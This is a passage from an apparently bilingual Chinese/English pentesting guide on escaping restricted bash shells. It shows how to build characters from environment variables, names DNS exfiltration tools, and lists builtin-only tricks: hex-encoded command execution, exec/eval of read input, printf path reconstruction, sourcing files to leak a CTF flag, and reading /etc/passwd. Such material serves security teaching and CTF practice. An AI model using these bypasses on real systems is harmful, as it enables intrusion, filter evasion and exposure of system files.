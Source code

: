In this example, we set `CHAR1` to 'a' and `CHAR2` to 'b'. By echoing the values of `CHAR1` and `CHAR2` together, we can retrieve the characters 'a' and 'b' as the output.

在这个例子中，我们将`CHAR1`设置为'a'，`CHAR2`设置为'b'。通过一起回显`CHAR1`和`CHAR2`的值，我们可以将字符'a'和'b'作为输出检索出来。

By combining this technique with other methods, you can bypass restrictions and perform actions that would otherwise be blocked.

通过将此技巧与其他方法结合使用，您可以绕过限制并执行否则将被阻止的操作。
```bash
echo ${LS_COLORS:10:1} #;
echo ${PATH:0:1} #/
```
### DNS数据泄露

你可以使用**burpcollab**或[**pingb**](http://pingb.in)等工具。

### 内置命令

如果你无法执行外部函数，只能访问**有限的内置命令来获取RCE**，那么有一些巧妙的技巧可以帮助你。通常你**无法使用所有的**内置命令，所以你应该**了解所有的选择**来尝试绕过限制。灵感来自[**devploit**](https://twitter.com/devploit)。\
首先，检查所有的[**shell内置命令**](https://www.gnu.org/software/bash/manual/html\_node/Shell-Builtin-Commands.html)**。**然后，这里有一些建议：
```bash
# Get list of builtins
declare builtins

# In these cases PATH won't be set, so you can try to set it
PATH="/bin" /bin/ls
export PATH="/bin"
declare PATH="/bin"
SHELL=/bin/bash

# Hex
$(echo -e "\x2f\x62\x69\x6e\x2f\x6c\x73")
$(echo -e "\x2f\x62\x69\x6e\x2f\x6c\x73")

# Input
read aaa; exec $aaa #Read more commands to execute and execute them
read aaa; eval $aaa

# Get "/" char using printf and env vars
printf %.1s "$PWD"
## Execute /bin/ls
$(printf %.1s "$PWD")bin$(printf %.1s "$PWD")ls
## To get several letters you can use a combination of printf and
declare
declare functions
declare historywords

# Read flag in current dir
source f*
flag.txt:1: command not found: CTF{asdasdasd}

# Read file with read
while read -r line; do echo $line; done < /etc/passwd

# Get env variables
declare

# Get history
history
declare history
declare historywords

```